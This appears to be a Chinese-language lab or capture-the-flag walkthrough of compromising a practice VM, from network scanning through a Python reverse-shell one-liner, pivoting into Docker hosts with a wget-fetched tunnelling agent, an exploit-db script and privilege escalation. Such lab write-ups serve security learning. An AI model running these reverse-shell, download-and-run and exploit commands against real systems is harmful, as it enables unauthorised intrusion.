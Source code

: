 # <font color = "#749DD6">第一次打靶</font>

### <font color = "#749DD6">0x01 环境</font>

靶机: 

攻击机: Linux kali 5.18.0-kali2-amd64 #1 SMP PREEMPT_DYNAMIC Debian 5.18.5-1kali1 (2022-06-20) x86_64 GNU/Linux 

IP:192.168.1.14

### <font color = "#749DD6">0x02 主机发现</font>

由于靶机和攻击机是在同一网段，所以采用arp-scan命令查看靶机IP

```
arp-scan -l
```

<img src=".\pictures\1.jpg">

其中`192.168.1.15    08:00:27:f4:1d:65       PCS Systemtechnik GmbH`是陌生IP,所以推测为靶机。

### <font color = "#749DD6">0x03 端口扫描</font>

```
nmap -sV -p- 192.168.1.15
```

<img src=".\pictures\2.png">

其中5000端口运行着python的web框架Werkzeug。我们来看看

<img src=".\pictures\3.png">

### <font color = "#749DD6">0x04 路径爆破</font>

我尝试用xray扫了一下，结果就是没什么结果，所以另寻僻静。用`dirsearch`爆破下路径，发现有新的收获

```
dirsearch -u "http://192.168.1.15:5000"
```

<img src=".\pictures\4.png">

访问后，发现是个代码执行页面

<img src=".\pictures\5.png">

这时就可以利用python进行反向shell连接到我的kali，首先在kali中开启监听

```
nc -nvlp 4444
```

然后在网页中输入

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.14",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

<img src=".\pictures\6.png">

执行后kali接收到反弹shell

<img src=".\pictures\7.png">

利用id命令发现时root用户，但ls一下发现存在Dockerfile推测进入的是个Docker，然后利用

```
ls /.dockerenv
or
cat /proc/1/cgroup
```

如果都存在内容，那么肯定就是个docker了。发现其ip地址为172.17.0.3

，接着进行内网主机发现

```
for i in $(seq 0 254); do for j in $(seq 1 254); do ping -c 1 172.17.$i.$j; done done | grep time
```

发现了.1和.2主机存活

由于直接在这两台主机扫描不太容易，所以需要利用内网穿透技术使kali能连接到docker虚拟机。这里利用venom

首先在kali中执行

```
./admin_linux_x64 -lport 6666
```

然后再利用kali运行http服务，在靶机中使用wget将使用代理的另一个文件传过去

```
python3 -m http.server 80 
```

靶机中

```
wget http://192.168.1.14/agent_linux_x64
./agent_linux_x64 -rhost 192.168.1.14 -rport 6666
```

<img src=".\pictures\8.png">

建立socks代理，让linux主机通过代理访问靶机。

```
socks 2801
```

<img src=".\pictures\9.png">

配置代理链

```
vi /etc/proxychains4.conf
```

到这里代理就算配置完成了。

```
proxychains nmap -sV -sT -Pn 172.17.0.1
```



<img src=".\pictures\10.png">

发现172.17.0.1和192.168.1.15是同一台主机，只不过172.17.0.1是对容器内的IP,192.168.1.15是对外部的IP。



然后使用同样的手法扫描下172.17.0.2

<img src=".\pictures\11.png">

搜索服务和漏洞

<img src=".\pictures\12.png">

先尝试第一个exp

```
cp /usr/share/exploitdb/exploits/linux/remote/36337.py .

proxychains python2 36337.py 172.17.0.2

```

<img src=".\pictures\13.png">

发现里面存在password文件，存放账号密码

```
john
1337hack
```

### <font color = "#749DD6">0x05 利用内核漏洞提权</font>

利用账号密码登录，发现成功登录。然后进行提权

<img src=".\pictures\14.png">

<img src=".\pictures\15.png">

<img src=".\pictures\16.png">

提权成功！
